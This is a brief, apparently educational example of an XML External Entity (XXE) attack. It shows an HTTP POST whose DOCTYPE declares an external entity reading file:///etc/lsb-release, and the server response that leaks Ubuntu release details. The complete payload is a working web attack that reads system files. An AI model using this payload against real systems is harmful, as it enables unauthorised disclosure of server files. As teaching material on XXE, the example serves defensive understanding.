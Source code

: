 XXE Attack Example
---------------
Request
``````xml
POST http://example.com/xml HTTP/1.1

<!DOCTYPE foo [
  <!ELEMENT foo ANY>
  <!ENTITY bar SYSTEM
  "file:///etc/lsb-release">
]>
<foo>
  &bar;
</foo>
``````
Response
`````
HTTP/1.0 200 OK
 
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=16.04
DISTRIB_CODENAME=xenial
DISTRIB_DESCRIPTION="Ubuntu 16.04 LTS"
````
